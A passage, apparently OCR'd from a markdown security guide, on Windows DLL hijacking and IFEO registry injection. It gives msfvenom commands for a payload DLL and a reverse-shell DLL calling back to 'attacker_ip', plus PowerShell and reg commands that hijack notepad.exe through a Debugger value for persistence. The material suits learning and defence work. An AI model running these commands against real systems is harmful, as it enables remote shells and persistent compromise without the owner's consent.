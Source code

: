 ### 3. Malicious DLL Creation

```bash
# Generate payload DLL with msfvenom
msfvenom -f dll -p windows/x64/exec CMD="calc.exe" -o malicious.dll

# For reverse shell payload
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -o payload.dll
```

### DLL Search Order Exploitation
1. **Application directory**
2. **System directory** (C:\Windows\System32)
3. **16-bit system directory** (C:\Windows\System)
4. **Windows directory** (C:\Windows)
5. **Current directory**
6. **PATH environment variable directories**

---

## IFEO Injection Attacks

Image File Execution Options (IFEO) is a Windows registry feature that allows debugging of applications. Attackers can abuse this to execute malicious code when specific applications are launched.

### Registry Modification

```powershell
# Registry path for IFEO
$RegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe"

# Create registry entry for debugger
New-Item -Path $RegistryPath -Force
New-ItemProperty -Path $RegistryPath -Name "Debugger" -Value "calc.exe" -PropertyType String

# Alternative: Use reg command
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /t REG_SZ /d "calc.exe"
```

### IFEO Attack Scenarios
1. **Process Replacement**: Replace legitimate process with malicious one
2. **Command Injection**: Execute additional commands during application startup
3. **Persistence**: Maintain system access through legitimate application launches

---

## Memory & Registry Analysis

### Memory Dump Analysis

